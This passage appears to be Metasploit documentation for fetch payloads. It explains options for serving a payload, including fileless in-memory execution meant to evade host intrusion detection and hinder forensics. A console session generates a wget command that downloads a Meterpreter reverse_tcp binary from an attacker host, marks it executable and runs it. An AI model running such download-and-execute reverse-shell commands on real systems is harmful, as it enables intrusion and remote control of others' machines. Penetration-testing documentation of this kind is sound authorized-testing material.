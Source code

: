 ### Dependent Options
`FETCH_FILELESS` is an option that specifies a method to modify the fetch command to download the binary payload to
memory rather than disk before execution, thus avoiding some HIDS and making forensics harder.  Currently, there are
two options: `bash` and `python3.8+`.  Both of these require the target to be running Linux Kernel 3.17 or above.
This option is only available when the platform is Linux.

`FETCH_FILENAME` is the name you'd like the executable payload saved as on the remote host.  This option is not
supported by every binary and must end in `.exe` on Windows hosts.  The default value is random.
This option is only available when `FETCH_FILELESS` is set to `none`

`FETCH_PIPE` is a binary flag that will create a second resource containing the original fetch command to run and then
will produce a much shorter command to run on the host that will download the original fetch command and pipe it
directly to the target's shell.  Use this option if there is a limit on the command size as it will result in a much
smaller original command.  When set to true, the `FETCH_URIPATH` option is used for the pipe command resource uri and
the default `FETCH_URIPATH`value is used for the original binary payload uri.
This option is only available when the fetch  transport is HTTP or HTTPS and the payload platform is Linux with the 
`FETCH_COMMAND` set to `CURL` or `WGET` or the platform is Windows and the `FETCH_COMMAND` is `CURL`

`FETCH_WRITABLE_DIR` is the directory on the remote host where we'd like to store the served payload prior to execution.
This value is not supported by all fetch binaries.  If you set this value and it is not supported, it will generate an error.
This option is only available when `FETCH_FILELESS` is set to `none`

The remaining options will be the options available to you in the served payload; in this case our served payload is
`linux/x64/meterpreter/reverse_tcp` so our only added options are `LHOST` and `LPORT`.  If we had selected a different
payload, we would see different options.

### Generating the Fetch Payload
```msf
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_COMMAND WGET
FETCH_COMMAND => WGET
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVHOST 10.5.135.201
FETCH_SRVHOST => 10.5.135.201
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set FETCH_SRVPORT 8000
FETCH_SRVPORT => 8000
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LHOST 10.5.135.201
LHOST => 10.5.135.201
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > set LPORT 4567
LPORT => 4567
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > generate -f raw
wget -qO ./YXeSdwsoEfOH http://10.5.135.201:8000/3cP1jDrJ3uWM1WrsRx3HTw; chmod +x ./YXeSdwsoEfOH; ./YXeSdwsoEfOH &
msf payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > 
```
